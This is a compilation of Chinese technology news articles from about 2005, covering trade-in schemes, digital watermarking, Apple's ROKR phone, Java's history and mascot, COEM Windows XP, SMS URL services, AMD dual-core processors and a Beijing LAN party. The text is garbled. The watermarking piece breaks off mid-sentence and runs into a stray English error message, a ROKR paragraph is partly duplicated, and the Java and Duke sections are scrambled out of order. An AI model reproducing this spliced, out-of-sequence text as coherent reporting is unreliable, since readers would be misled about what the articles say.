少数商家的这种里外做鬼两头赚钱的“以旧换新”行为无疑被消费者看成是骗人的鬼把戏，其生命力固然长不了。但它却导致后来有人把企业正当的“以旧换新”行为等同于那些商家玩弄的鬼把戏。其实此“以旧换新”非彼“以旧换新”。不少消费者在接受记者采访时表示：欢迎多来点真心换新服务，必是少数商家的“以旧换新”的把戏。这些看似是一种情绪，其实是一种需求的趋势。

（阿健）

技术人员千方百计向一张张图片里面隐藏信息；另一群人则绞尽脑汁向老百姓推广将隐藏的信息挖掘出来的方法。他们为什么要这么做？有专家认为这种隐藏信息的技术将带来IT行业的革命，它有这么大的力量吗？

## “数字水印方兴未艾 市场推广期待良策”

### “来自一起诉讼的启示”

用照片能否认定违章停车？挨罚的李女士认为，仅凭一张车牌号照片是不够的。前不久，李女士状告北京市丰台区交通支队执法证据不足的案件在法院开庭审理。

据到庭的李女士的丈夫程先生称，李女士通过手机查询发现自己有一次违章记录，到交通队核实时，李女士只看到了一张数码照片。照片拍下了李女士汽车尾部的车牌号码。李女士认为，照片只显示了车牌照，没有显示车内是否有人；只能证明她的车到过现场，没有证据能够证明她违章停车。为此，李女士将交通队告上法庭，要求撤销行政处罚，返还已交罚款200元，并赔偿经济损失500元。

### “起源于信息隐藏”

信息隐藏，也称为信息伪装（Steganography），该单词来源于古希腊，意思是将有用或重要的信息隐藏于其他信息里面，就是将信息隐藏于另一非机密的文件内容之中。密码学是研究如何保护消息内容的，而伪装术是专门研究如何隐藏它们的存在性。

数字水印技术的基本思想源于古代的伪装术（密写术）。古希腊的斯巴达人曾将军事情报刻在普通木板上，用石蜡填平，收信一方只要用火烤热木板，融化了蜡后就可以看到密信。使用最广泛的密写方法恐怕要算化学密写了，牛奶、白矾、果汁等都曾充当过密写药水的角色。大约700年前，在手工造纸技术中出现了纸张上的水印。

### “还数码照片一个清白”

数字水印如何保护数码照片的真实性呢？北京华旗数码影像技术研究院田新博士The request was rejected because it was considered high risk## 苹果出怪招 音乐手机成鸡肋？

苹果公司总是可以给我们带来惊喜：当年，苹果迷们纷纷为苹果的关键时期，史蒂芬·乔布斯推出了iPod从而拯救了摇摇欲坠的苹果公司。而现在，人们认为苹果iPod的增长速度将放缓而影响苹果未来发展的时刻，苹果公司联合摩托罗拉推出了iTunes手机ROKR。实际上，在iPhone还未发布前已在业内传得沸沸扬扬，成为业内公开的秘密了。但这都不是ROKR没有引起业内注意的主要原因，苹果推音乐手机，意欲何为？

## 一种猜测 苹果借机试水

市场调查机构Goldman Sachs预测，与此同时2005年迎来疯狂销量涨势234%的iPod音乐播放器在明年的销量增长率将仅仅为16%。苹果似乎看到了iPod的前景，它是否想借机进入音乐手机领域呢？

但是这款由摩托罗拉制造的ROKR，不仅设计平平，而且存在诸多不完美之处。获取歌曲的途径，最方便是通过iTunes购买或手机网络下载，但ROKR没有提供这个功能，你必须通过USB连接到PC上，这和普通的iPod没有多少差别，因为苹果的主业就是销售iPod、PC以及在线音乐，通过网络下载就绕过了苹果的利润增长点，苹果当然不会这么笨。另外一个例子是，在技术上可以让ROKR容量达到500首或1000首歌，但苹果没有这样做。因为这会让传统的iPod失去市场。同样，存储到手机的歌曲不能作为铃声使用也是ROKR败笔之一，因为会抢占移动运营商的铃声份额。



样机。因为这会让传统的iPod失去市场。同样，存储到手机的歌曲不能作为铃声使用也是ROKR败笔之一，因为会抢占移动运营商的铃声份额。

## 一种猜测 以不变应万变

要知道现在的iPod业务贡献了苹果公司的大部分收入和利润，所以苹果公司不可能全力投入音乐手机市场。这样会对iPod业务形成冲击，这就得不偿失了。但是苹果公司又不可以放弃数字音乐市场，因为这将是苹果公司未来的增长点所在。所以苹果公司准备平衡这两个产品，使其互为补充，而不是互相取代。这也许能解释苹果联合摩托罗拉推出音乐手机，而为什么又不让其继承纯正的苹果血统了。

正如Piper Jaffray公司的分析师Gene Munster说：“他们不想拆东墙补西墙，苹果只是想让人们尝尝味道。”瑞典音乐压缩技术公司“编码科技”的美国总经理David Frerichs说：“苹果可能在问自己，如何才能阻止人们用音乐手机取代iPod。他们可能想在消费者心目中建立一种印象，即手机只能存放一小部分歌曲，因此无法成为像iPod那样的音乐库。所以在推出ROKR的同时，苹果公司也推出了苹果iPod NANO，这个更小、更薄、价格极具竞争力的产品将推动苹果公司iPod业务的继续前进。Jupiter Research市场研究主管Michael Gartenberg说：“NANO确实让人耳目一新，它特点鲜明，融合了多种款式优点和功能，价格极具竞争力。相信它将成为今年秋季旺销的畅销品。苹果再次证明了只有他们懂得如何保持市场的霸主地位。”

现在的苹果公司在静观其变，一方面他会把主要力量放在iPod业务上，另一方面他可以等待音乐手机市场的成熟。如果新手机受到如潮好评，乔布斯可能进行其他的交易，比如向摩托罗拉或是另外一个厂商出售软件许可。他还可以自己制造手机。所以苹果完全可以研发一个有个性的手机并坐收渔利。这是苹果未来能够在移动市场真正掀起波澜的最有可能的方式。

## 晕招，怪招，源头何在？

但为什么消费者对这款产品抱这么大的兴趣呢？这也是我们思考的问题。可能ROKR是最有可能融合三种不同领域产品概念的产品。首先，具有苹果iTunes音乐功能，苹果依靠iTunes已经售出5亿首歌曲了；其次是当代社会最普及的手机功能；最后是可以充当iPod使用。把三种功能融合到一款简单产品中，需要革命性的技术支撑。但似乎ROKR还没做到这一点。

相信消费者已经对ROKR有点失望了。ROKR发布的真正意义在于向业界表明公司想要推出一款创新产品是何其之难。原因就在于创新威胁了现有的商业模式，而且是公司核心商业模式。ROKR已经成为苹果公司在创新光环下的替代品，不能突破现有商业模式的瓶颈。以前苹果创造的价值和品牌很可能成为其自毁长城的根源。（新闻采访部实习记者 张健）

## 第二篇 Java之父

让时钟再倒转到1969年。那时，有个14岁的小男孩，留着金色的长发，戴着黑框大眼镜，参观了加拿大Calgary大学计算机科学系。他很快就被周围的设备所吸引：9磁道磁带机、绘图仪、针式打印机，还有一台有8K RAM的大型计算机……很酷！这就是Gosling对计算机萌发巨大兴趣的开始。

由于加拿大Calgary大学计算科学系大楼里大多数的锁都是穿孔按键型的，不需要物理钥匙就可以进去，所以Gosling常常进来，自学编写软件。在跳槽到Sun公司之前，Gosling最值得炫耀的就是在上世纪80年代初，获得博士学位后到IBM设计的第一台工作站。

从Apple创始人Steve Jobs、Intel创始人Andy Grove到微软创始人Bill Gates，IT这个行业特别关照偏执狂。Gosling对技术的狂热难免让人也将他归到此类。事实上，他对Java的偏执造就了Java今天的辉煌。

是年轻人了，但是他仍然热爱编写程序。虽然他已经是Sun公司副总裁，仍然负责一个新项目的开发。他半开玩笑地说：“开发确实是件很酷的工作。”

Java拥有了一个精彩的十年，下一个十年又将走向何处呢？Gosling作出了自己的判断：鉴于多数运行着大数据进程的实际情况，人们对线程模拟投以越来越多的关注。随着人们对桌面应用的要求越来越高，系统将变得越来越复杂。他指出：从工程的角度来看，未来10年我们所面临的最大挑战就是复杂性问题。目前，我们开展了许多工作以解决编程接口、语言以及工具中所涉及的复杂性问题。在工具和用户界面中都会遇到复杂性问题，Java技术设计人员必须处理好大小尺寸调整和国际化问题。

“叮……”狂躁的电话铃声在一个风雨交加的凌晨突然响起，Gosling的朋友拿起电话破口大骂：“你疯了吗？James，半夜三更的，还让不让人睡觉呀！！”听着朋友愤怒的声音，Gosling反而笑了。事实上，Java就是在这样一个电话中萌芽的。

Gosling跟记者回忆起当年Java发布的过程时，总是面带笑容：“Java诞生不久，1994年，我要同John（编者：Sun公司首席科学家）参加一年一度的“技术、教育和设计大会”，那是一次特别不寻常的经历。因为我根本没有想展示什么，而John却心急如焚地想在第二天就展示Java，我们忙活了整整一个晚上。开会那天，我胆战心惊地点开了网页，从数百英里外的一个网站上下载一段Java小程序在本地运行。几秒钟时间里，原本静止的网页上，一个分子图像以三维动画的方式动了起来。当时我手心里不断地出汗，要知道，在我们结束演示前，网络崩溃了，幸好东西都保存在缓存里，观众中没有人注意到网络的故障。在场观众赞叹不已。”

一个由Sun程序设计师组成、代号为Green Team的小团队就以加州曼洛园区为秘密基地，研究下一波计算机趋势走向并做好准备。

在1992年的夏天，Green Team研发出一部交互式的掌上型家用娱乐装置，名为*7，可透过使用动画触摸式的使用者接口来控制其他电子设备。使用者接口的主角就是Duke，在当时扮演用户的小帮手，与屏幕上的多个对象互动。他由绘图大师Joe Palrang设计。

根据一位熟悉Duke设计过程的工程师回忆，当初创造Duke是要他应付“千变万化的世界”。他可以走进各个房间，与各种对象互动。Duke设置还有公文包，可帮你带着东西到处走。”在Duke之后出现的微软Office助手则完全不是一回事，“它只不过是用来存取说明菜单，不多不少，如此罢了”。

今天，Duke则成了Java技术的吉祥物。

## 享誉世界

如今，Duke不仅是一个可爱的小精灵，还是一种荣誉的象征。因为Sun公司设立了Duke选择奖，用来表彰在过去一年里，最富有创新性的Java技术应用项目。

Duke选择奖被誉为“Java奥斯卡”。在每年的JavaOne大会上颁发。

## 第三篇 Duke:无所不在的小精灵

Duke是谁？有些人说他是一个动画小精灵，但他的好朋友都叫他Duke先生。现在Duke是Java技术的吉祥物。十年前，James Gosling第一次为Duke赋予了生命，并且教会他在电脑屏幕上翻筋斗。从此所有的软件开发者和Internet社区都张开了双臂迎接他的到来。Duke代表着一种可以到处运行的程序语言。如今，Duke的主人向人们宣告，全球有450多万程序员，让这种软件运行在25亿部电子设备中。

## Duke诞生

现在实在很难想象当初Internet处在枯燥、乏味的时代，而这一切在短短几年内就发生了转变。不过，在1991～1992年间，

在Java问世十周年之际，总是让人想起昔日唐朝诗人贾岛之诗《剑客》：“十年磨一剑，霜刃未曾试。今日把示君，谁有不平事？”只是在当代技术环境中，当我们把玩着Java这柄经过十年磨砺的宝剑，却发现它早已屡试锋芒，在全世界扬名立万了。（新闻采访部实习记者 张健）

## 500多元买正版 COEM版Windows你了解多少？

和大家的心情一样，记者也是第一次听说微软的正版Windows XP操作系统售价仅仅为500多元。和微软动辄199X元的软件价格策略相比，500多元已经是部分电脑用户可以接受的价格了。但事出有因，正如这位报料的读者所说，500多元的价格只能买到一种COEM版的Windows。经过初步调查，记者发现微软低价软件的背后隐藏着太多鲜为人知的“秘密”。

## 500多元正版Windows，哪儿来的？

记者为核实情况，首先登录了 it168.com 查询正版Windows XP的销售状况。在该网站收录的相关类别产品中，确实有一种全称为“Microsoft Windows XP Home Edition COEM”，其最低售价仅为565元人民币。而另一种全称为“Microsoft Windows XP Home Edition（中文版）”，其售价最低也要950元。两者在描述中基本相似，只是名称相差“COEM”字样。

为进一步了解软件内在的差别，记者连续拨通了6家微软授权经销商的电话。某经销商肯定地回答，两种产品完全一样，除了包装略有不同。COEM属于简装，另一种价格较贵的是盒装而已。然而，事情真如这位经销商所说的话，试想一下，还会有为了购买同一套操作系统而多花“冤枉钱”的消费者吗？难道是消费者捡了便宜？

紧接着，记者走访了其中的一家多年销售软件并提供软件技术支持的经销商。负责接待记者的客户经理同时拿出了COEM版和盒装版的两套Windows XP Home版的软件，记者注意到“简装”的包装只有一层塑料薄膜包裹，其中是一张纸质光盘袋封装有Windows XP Home Edition字样的光盘，一张激光防伪商标印有安装序列号码；“盒装”的和大家在软件超市里见到的零售版没什么两样，光盘、说明书一应俱全。当记者问及两种软件的来源时，这位客户经理的回答是：两种包装的产品均来自微软公司。

同一家公司，同时销售品质相同的产品，价格却相差一半，这不得不使记者怀疑微软的葫芦里到底卖的什么药？在接下来的采访中，记者逐步接近微软软件销售背后的真相。

## “简装”与“盒装”有区别

正如多数经销商所说，他们对微软为何要这样做也知之甚少，与微软的关系也只是一种代理销售软件的关系。记者随即拨通了微软800服务电话，以一位普通消费者的身份与一位30号客户服务代表取得了联系。就消费者普遍关心的价格差异、是否正版、激活等问题，记者得到了的消息是：

- COEM版是微软允许经销商向购机用户提供的操作系统解决方案，和零售版操作系统一样，也需要经过安装、激活等过程。
- COEM版不包含微软提供的90小时免费售后服务，只采用简易包装形式，这两点是与零售版操作系统最大的区别之处。值得补充的是，COEM的售后服务责任应由经销商承担，并不意味着没有售后服务。

在这位工号30的客户服务代表的指引下，记者登录了微软COEM产品的官方网站（http://www.microsoft.com/china/coem/），得到了更多有用的信息。

## COEM价格低 量不足

在微软（中国）网站上的一个名为“随机版产品（COEM）常见问答”的网页上，记者发现，如此一款价格便宜的随机版产品却不是对所有消费者都适用的，它的主要销售对象也并非终端消费者。具体表现为：

- 用户电脑中更换硬件后不方便再作激活。用户在对于安装有COEM版系统的电脑上添加、更换、减少配件后，如果系统提示需要再作激活后才能继续使用，用户须联系激活中心并提供相应的购买证明（比如发票）。也就是说，一套软件只能苛刻地安装在一台配置不变的电脑上。
- 终端用户很难取得应有的售后服务。采访中，多数代理商只提到软件的价格优势，而对于激活方法、售后服务等问题，要么避重就轻，要么只字不提。但是，按照微软的规定，“提供软件安装的系统制造商负责该软件的全部最终用户支持服务；系统制造商必须向用户提供支持服务电话（PC帮助文件或最终用户文档）。”而如果终端用户得到了COEM产品，而不是从系统制造商处获得，微软的解释是：经销商负责该产品的售后服务。但习惯了有问题找厂商的消费者，谁会知道这些复杂的规定呢？如果打电话到微软而文不能得到服务，那消费者的利益谁来维护呢？看来，微软对于经销商的培训还需要做到位。

## 经销商：我们也是赔本赚吆喝

经销商因自身规模太小而未按照微软的要求去提供应有的服务肯定是不对的，但就是一直从事软件销售和售后服务的正规经销商，生意做得中规中矩，却也叫苦连天：“卖软件，我们基本上是赔本赚吆喝。为了达到软件厂商年销售百万套的目标，不少零售版的产品，我们都是把该得的返点让利给消费者。以微软建议售价为1998元的Windows XP Professional来讲，实际销售价格1600多元，真的不赚钱。像我们这样有资质代理微软全线产品的经销商都如此，那其他人的日子也好过不了哪儿去啊。”

据了解，经销商按照资质的不同，可以代理的微软产品从COEM版到零售版，到授权许可证，再到软件正版化等多层次产品。COEM虽然便宜，却也有利可图，因为“识货的”绝大多数是系统集成商和系统制造商。反而是零售版不太好卖，价格曲高和寡不说，经销商的返点都算进去也赚不了钱，所以大家不怎么爱做。

## 买正版软件 我应付多少？

听完上面的讲述，你是否在考虑，买质优价廉的正版软件竟有如此多的讲究？几百元的价格就能帮所有人都圆一个正版梦吗？

李先生刚买装了一台电脑，考虑到成本，他选择了一套850元的COEM版Windows XP专业版，比起零售版1600多元的价格，他节省了将近800元的支出。在电脑使用一段时间后，他希望升级一下内存、显示卡、光存储和CPU，却发现自己的Windows XP再也无法激活了。因为他深知盗版之害，不得不忍痛割爱地重复购入一套850元的COEM版Windows XP专业版。

李先生的公司也有100多名员工，按照人手一台估计，购买COEM版的费用在85000元左右，但此做法按照微软授权经销商的解释，是违反销售规定的。李先生的公司可以选择购买一套1600多元带光盘的零售版Windows XP，然后购买100余个价格在1300元左右的授权许可证（就是激光条形码），如此的花费就在131600元以上。

都是正版软件，一种包装简单，一种包装精美；都是保护软件著作权，一种花费百元，一种花费足够贫困地区百姓购置一台电脑；都是安装微软的正版操作系统Windows XP，COEM版就可以帮企业节约数万元的信息化成本，虽然做法有待商榷。

既然软件企业希望让消费者得到更多实惠，为什么不光明正大地将售价降低到消费者可接受的范围内呢？推出“简装”产品，无非是要降低消费者的总体拥有成本，那为何又强加限制，让消费者不能明明白白消费呢？难道购买正版软件的消费者只会看中价格本身吗？

> （新闻采访部记者 张健）

## 短信网上，带你去逛架在短信上的商铺

“你经常发短信吗？”当记者在北京的街头巷尾问起这个问题时，不管是扎着小辫的帅哥还是剃着光头的靓女，不管是西装笔挺的公司老总还是胡同口闲谈的大叔大婶都连连点头。的确，如果身在这个时代的你还没发过地球人都知道的短信，那就太太太落伍了。那么“你知道什么是短信网址吗？”当被问到这个问题的时候，绝大多数人脸上却显出了迷惑的神情。短信和网址，这两个词的含义大家都再熟悉不过了，可是合在一起又代表什么呢？为了解开大家的迷惑，记者当街掏出手机，让大家着实领教了一下短信网址的“厉害”。

## 买房、装修、K歌 一个都不少

在国贸上班的赵先生新买了房子，虽然是件喜事，但现下装修市场鱼龙混杂，到底选哪家装修公司装房，成了令他头痛的一件事。按照记者的指导，赵先生编辑短信“我想装修”四个字，发送到“950066”。几乎在手机显示发送成功的同时，接收短信的提示音清脆地响起来，赵先生收到来自“950066”的这样一条短信：“您的装修助手！选择您需要的服务，直接回复栏目编号一、装修流程；二、装修估算；三、要点提示；四、量房留言；五、我想通话。”紧接着，赵先生回复了“二”和“四”，又分别收到了这样的短信：“简单装修（粉刷为主）200元/平米；简约装修（舒适经济功能完善）500元/平米；精致装修（讲求典雅品位）800元/平米。”“量房留言联系设计师对装修房屋精确测量，才能获得合理的装饰设计及准确的装饰预算，请直接回复您的姓名和电话，即可获得免费、迅捷的量房服务。东格装饰公司已经收到您的量房要求，将尽快联系您。请保留此条信息，享受2%返现，您也可以拨打（010）80492747/48！”看到这些，赵先生微笑着说：“没想到发一条短信就能预订到量房服务，还真挺方便的。接下来就等对方给我打电话，我再仔细问问他们。”

记者在白石桥钱柜门前采访程小姐时，她正在等朋友。程小姐说她平时最喜欢的休闲方式就是K歌，还是绝对忠实的“凉粉”。记者投其所好地说服程小姐发送：“K2KTV”到“950066”，得到了这样的回复：“请回复栏目编号，获取活动详细信息。（0.1元/条）一、K2KTV‘1折K歌’活动；二、潇湘苑满100返50礼券；三、K2KTV超市1折周年庆。”“哎呀，居然还有一折K歌的活动！”程小姐说着兴奋地发送了“一”。“K2KTV‘1折K歌’活动进行中，房费5元/小时起，活动时间段:12:00～21:00，1:00～6:00。请咨询65952288”程小姐说：“原来这就是短信网址啊，的确挺方便快捷的，而且还挺实惠，下次我一定带朋友去K2KTV试试。”

亲身经历了这些体验，程小姐说：“我感觉短信网址其实就是短信域名，通过一个短信网址，可以访问到这个域名对应的内容。而每一次回复的数字编号，就相当于在网页上点击了这个编号对应超级链接。”

通俗来讲，程小姐的确实说出了短信网址的基本含义。中国移动通信联合会执行副会长谢麟振解释说：短信网址是移动互联网上用自然语言注册的网址。企业注册短信网址后，用户只需把想要寻找的企业名称或服务名称编辑短信发送到一个全国统一的端口号，之后用户会接收到一个短信形式的“袖珍网页”，通过这个“袖珍网页”，完成相关内容的信息互动。

## 用拇指体验的移动商务

今年1月18日，由中国移动通信联合会发起，信息产业部电信研究院、中国移动、中国联通等电信运营商支持参与的“短信网址联合信息中心”(以下简称MobNIC)正式成立，宣告了以“短信网址”为主要技术平台的移动互联网寻址管理、运营、应用体系的建立，同时也拉开了以移动商务、移动政务等为代表的整个“移动信息化”在全国推广的序幕。国务院信息化工作办公室常务副主任曲维枝在给MobNIC成立的贺信中表示:这是一次结合中国国情推进移动信息化，解决“最后一公里”，促进信息进入千家万户的有益尝试。

亚太地区由于人口众多，对数据业务的使用一直比较活跃。在我国，凭借4.5亿的手机、小灵通用户，短信作为新兴媒体，创造了一个又一个的经济神话。刚刚鸣金收兵的“超女”大战，3千万的短信收益已经捅破了短信经济的窗户纸，透过这个小小的窗口，我们已经看到了短信经济更广阔壮美的天地。

然而，尽管我国目前各类短信的年发送量超过2200亿条，但其中一半以上都是通过个人之间发送完成的，而增值服务提供商(SP)提供的笑话、娱乐、新闻、游戏等内容性的服务占到总量的30%左右，只有很少一部分是与企业和行业应用有关。短信网址注册服务机构北京新网互联科技有限公司的市场部经理李涛说:“虽然中国的网民刚刚达到了一个亿，然而这一亿人却可以自由访问占总网站数量80%的企业网站，进行他们的电子商务活动。那么中国有4亿多的手机和小灵通用户，这样大的一个潜在市场，为什么要将它搁置，不加以利用呢？”事实上，将简洁明了、亲切可人的短信运用到企业，把行业应用服务推向用户，也正是要改变这一现状，开拓一个新的市场，用极低的成本推进移动信息化，发展社会生产力，服务广大人民群众。

## 四大问题成发展绊脚石

俗话说：“万事开头难。”尽管从1月18号至今短短的7个多月，短信网址的注册量已达8万之多，但短信网址这只“初生牛犊”还只是在移动信息化的漫漫长途中迈出了第一步，要发展壮大，还面临着许许多多的问题。

### 问题一：行业标准迫在眉睫

“短信网址”不单是一个简单的产品或一个注册代码，它更多的是体现了基于短信网址的应用，可以说正在形成一个新的产业。这个产业使企业基于移动网可以构建自己的互动平台，能够实现企业很方便地向手机用户做营销、做服务，手机用户也可以很方便地找到他需要的企业的内容和应用。中国移动通信联合会执行副会长谢麟振说:“没有标准，产业就做不起来。”事实上，由于“短信网址”所塑造的移动商务模式，技术门槛很低，资金投入小，也就注定了在这个领域中的竞争会非常激烈，而这种竞争实际上也会导致很多服务品质的下降。在这个关键时刻，倘若缺乏了行业标准，短信网址就会像一个没有规则的游戏，参加者可以任意的制定有利于自己的规则，这必将导致整个行业的混乱。

据短信网址项目总负责人、电信研究院总工程师蒋林涛介绍，按照计划，短信网址相关标准主要从三方面来制定:移动终端与移动网络设备之间、移动终端与SP、移动终端与互联网信息源之间的互联互通技术标准与规范。并且，该标准推出后，将规范通过移动互联网寻找企业网站地址的技术标准。

### 问题二：统一接入号码未定

与纷乱复杂的SP服务不同，短信网址让手机用户不必再为记不住形形色色的短信接入号码而头痛。不论你是想看《幸运52》的下期节目预告，还是要关注“超女”的最新动态，不论你是想了解国美“十一黄金周”的特价活动，还是要浏览华星影城上映新片的时间和票价，你都只需要发送他们的短信网址到全国统一的号码“950066”，便可以轻松获取这些资讯;可以说省了手机用户不少脑细胞。并且，短信网址也不需要像SP那样的定制费或月租费，从用户发送的每一条短信都只收取1毛钱的通讯费，而用户收到的来自短信网址的相应回复也是同接收其他短信一样，是免费的。这样一来，手机用户也再不用为不知道什么时候误定的一些SP服务，每个月被悄无声息地扣掉许多话费而发愁了。

但据短信网址联合信息中心秘书长马燕黎介绍，短信网址的接入系统还在试运行阶段，目前对外发布的950066，以及适用于移动用户的60088，适用于联通用户90088和备用号码916088等都会在申请到全国统一的接入号码后被取代。届时，无论是移动用户还是联通用户，还是小灵通用户，都将使用这个唯一的号码访问短信网址。这也就意味着，现阶段短信网址的推介还无法大张旗鼓地进行，因此，它在老百姓中的普及率和知名度也就不可能很高了。

以我们查询交通违章的过程为例，通过短信网址可以方便地查找指定人员、指定交通工具的违章情况

### 问题三：服务内容尚不成熟

经过7个多月的努力，短信网址的产业架构已经初具规模，但当记者体验用短信逛商铺的时候，却遇到了不少困惑。

当记者发送“民航机票”到“950066”时，回复信息中显示了“一、留言;二、国内机票;三、国际机票”几个选项。为了了解最新的机票行情，记者选择发送“二”和“三”，不久后，接到了这样的留言:“对不起，您访问的栏目的自动回复语未设置，感谢您的使用!”紧接着，记者又试验了另一个名为“汽车用品世界”的短信网址，想看看是不是能为自己的爱车添一部车载电子地图，却只看到这样的一句话:“欢迎访问汽车用品世界 www.zdauto2004.com 64248141。”几次下来的搜索结果不免令人失望，显然，由于企业设定的后台提示不完善，手机用户并不能了解到自己真正希望了解的信息。

在采访短信网址联合信息中心秘书长马燕黎时，他对此解释说:“企业注册短信网址后会怎样利用，这主要还在于企业本身对短信网址的理解。不可否认，短信网址的应用还在起步阶段，各方面服务的不完备是不可避免的，但是我们也看到了许多比较成功的案例，比如‘北京甘家口大厦’这个短信网址，用户不仅可以从回复中了解到新品介绍和折扣信息，还可以通过选择WAP选项来登录甘家口大厦的WAP网站。在这个网站上面，手机用户甚至可以很方便的查看到商场的路线图等等。我想，通过上游推介的引导和短信网址的进一步发展，企业对短信网址的理解和应用会在很大程度上有所提高。到时候，手机用户就能够从短信网址中更多地了解到他们希望了解的信息了。”

### 问题四：垃圾短信令人心悸

采访中，短信网址授权金牌注册代理机构英普百联的无线业务部总监庄建东，为记者演示了短信网址的操作后台，他说:“每一个短信网址都对应着‘灵信’网站上的一个ID，企业输入自己设置的密码后，可以进入该短信网址的后台管理界面。这个系统可以自动识别发送短信的手机用户所在的地区，是全球通用户还是动感地带用户等信息也一目了然。系统会记录这些号码并按照一定规则分类，企业可以在必要的时候向这些用户群发短信。”看到这里，在赞叹短信网址后台管理功能强大的同时，也不禁要问，像这样把自己的手机号码暴露给商家，会不会导致未来收到许多垃圾短信呢?

马燕黎先生回答说:“首先，这些手机号码的获得都是基于手机用户对某一短信网址的关注而来的，假如用户不发送短信的话，后台也就无法得到这些号码。在此基础上，系统会自动记录用户访问该短信网址的浏览次数，当浏览次数积累到一定量的时候，系统会将该号码默认为是真正关注这个企业的手机用户。这样，企业才有理由给这类手机号码群发短信。并且，后台在群发短信的数量上也做了限制，每天最多只能发送200条，如果超过这个数字，企业必须向有关注册机构申请，同时群发短信的内容也要受到机构的监督和审查。”他又说:“用户在收到某企业的群发短信后，如果觉得是垃圾短信，可以回复‘0000’，这样一来，用户便将自己从该短信网址的后台中删除，避免不再受到侵扰。除此之外，系统也设置了一些禁止的关键字，可以说我们在尽一切努力，把产生垃圾短信的可能性降到最低。”

## 可以预见的未来

试问，除了手机，又有哪种方式能让人们随时随地地获取第一手的信息呢？尽管面临着一些问题，但短信网址凸现移动商务的快捷、便利、保密性好等特点不仅令运营商信心倍增，也让所有希望在新一波的移动信息化大潮中占得先机的企业跃跃欲试。据估计，未来3年内，短信网址的企业用户将达到100万，形成数十亿元的产业规模。那么，在短信的天空下，我们的普通手机用户能享受到何种服务呢？

[新闻采访部实习记者 杜昕]

## 要“双核”还是要“双吃”？

随着AMD X2 3800+ 走进电子卖场，这颗融合了最新双核处理器技术的产品迅速成为“AMD 粉丝”们的猎物。不仅如此，各种评测机构对于这款处理器产品的测试进一步证实了它称为今年处理器市场上的亮点已经没有悬念。随着双核技术的平民化步伐地加快，Intel和AMD这对老冤家都在不遗余力地推广双核心处理器的应用前景，但是，不少资深硬件评测工程师告诉记者，AMD的双核才是真正的“双核”。当记者敏锐地察觉到这句话的深层含义时，更多摆在用户接近“双核”之路上的难题浮出水面。

## 频率停滞 双核才是王道

目前两家世界上最大的处理器制造厂商都遇到了一个难题，那就是“频率”。频率作为衡量处理器好坏的标准已经成为了大多数人的定论。低频率就代表着一颗处理器性能的滞后，而如今不管是Intel还是AMD都同时遇到了“频率”这个难题。

1965年Intel公司的总裁Gordon Moore提出了Moore定律，一种理解是：晶体管会每24个月增长一倍。目前，要做到这点谈何容易。频率越高工作温度越高，加上整合在处理器上的功能越来越多造成生产过程中良品率大大降低，这些因素直接导致了处理器的频率无法大幅提升。面对即将搁置的4GHz计划，Intel CEO贝瑞特曾无奈地单膝跪地希望技术人员原谅。

其实 x86 处理器多年来除了频率外，在架构上并没有什么大进步。在设计者提高处理器内部进程的数量、增加缓存容量等方法纷纷用尽以后，似乎残酷的现实告诉设计者们：单核心处理器已经走到尽头。双核心被Intel和AMD确定为下一步发展项目也就不足为奇了。

## 谁是“真双核”？

在国外市场上，AMD双核处理器抢先上市已有半月时间，曾一度得到众多“AMD粉丝”们的追捧。但是由于AMD的贪婪，在双核心发布初期AMD并没有把3800+加入正题，很显然，AMD希望消费者都能够拿出超过500美元来购买他们的双核心处理器。但迫于市场的压力，AMD不得不放下他们高贵的架子，推出了其号称主攻主流桌面低端市场的AMD X2 3800+，这一次，国内的消费者也会买帐吗？这要从消费者对于这块处理器的认可程度谈起。

国内评测机构纷纷拿出详细的报告，无非就是想指出AMD X2是真正的双核。同为双核心处理器，AMD与Intel采取了截然不同的市场策略。Intel至尊版以及面向主流市场的Pentium D处理器针对的都是台式电脑，而AMD的双核处理器则是为网站主机、邮件服务器等设计。基于此，AMD的技术架构为实现双核和多核奠定了坚实的基础。AMD选择了直连架构和集成内存控制器技术，也就是通过超传输技术，让CPU内核直接跟外部I/O相连，而不必不通过前端总线。此举使得每个内核都有自己的高速缓存可资调用，都有自己的专用车道直通I/O，没有资源争抢的问题，实现双核和多核更容易。这也是业内高度评价AMD X2为“真双核”的原因所在。但是，Intel的双核怎么就是“假双核”呢？

## 双核仍是消费期待

从技术上说，Intel双核心采用多个核心共享前端总线的方式。多个核心共享二级缓存、共同使用前端总线。当内核增多，核心的处理能力增强时，大家可以设想现在的大型社区，如果多个社区利用同一条城市快速同道，肯定要遇到堵车的问题。

面对双核心由于软件价格等原因导致普及速度可能较慢的情况，从市场策略上说，Intel采用侵略性的价格政策来吸引消费者，AMD则着重宣传产品性能。第一轮宣传攻势下来，Intel得益于AMD在双核对整机并行运算性能的飞速提升的宣传力度，价格政策已经开始奏效。但此次AMD显然做好了一切迎战的准备。X2沿用了939针设计，在升级主板BIOS以后，用户就可以平滑地过渡到双核处理器时代了。此外，明显的节电技术优势加之低发热量的设计，无疑让AMD X2具备一块优秀处理器的品质。

AMD X2 3800+ 的出现让我们与双核心的距离越来越近，如同我们当年面对日益普及的AMD 64位处理器一样，对于双核心我们拥有更多美好的期待。

(阿健)

## 追忆京城不眠夜——CLPA LANParty 2005 盛会侧记

“这是最地道的一次LANParty了！”一位电脑玩家抱着自己的战利品离开会场时兴奋地对记者说。2005年10月15日深夜2点，来自全国数十个城市的上百位超级电脑玩家依依不舍地离开了北京中关村某电子竞技馆。1个小时以前，现场还是一片节日狂欢的景象。是LANParty将他们齐聚京城，是LANParty让北京中关村拥有了一个不眠之夜。

LAN(局域网)+Party(聚会)，直译为“局域网聚会”，而记者现场感受到的LANParty已经远远超出了它几根网线、几位朋友“以电脑会友”的简单含义。2005年10月15日，时间已经接近午夜，经历了近24小时的聚会，由中国LANParty玩家联盟（以下简称CLPA）组织的CLPA LANParty 2005 盛会即将宣告结束。经过评委会评选，最终决出了此次LANParty盛会的多个MOD单项奖和一个优胜奖。现场气氛达到了高潮，主持人每宣布一个结果，现场口哨声、掌声、喊叫声便会接踵而至，这场面一点儿不亚于奥斯卡颁奖仪式。这究竟是怎样的一次聚会，会吸引全国数十个省市的上百名DIY玩家齐聚京城？它的魅力何在，能让玩家们的热情如此高涨，就连记者也不由得融入了这热情似火的气氛当中？感受着CLPA LANParty 2005似火的热情后，我们更想探究其魅力之源，更希望找到一条适合中国国情的电脑发烧友交流之路。从这个角度来说，CLPA LANParty 2005 给京城带来的这个不眠之夜是否该更早些到来呢？然而，这一切问题的答案还是得从对本次LANParty的回忆说起。

## MOD专区:梦开始的地方

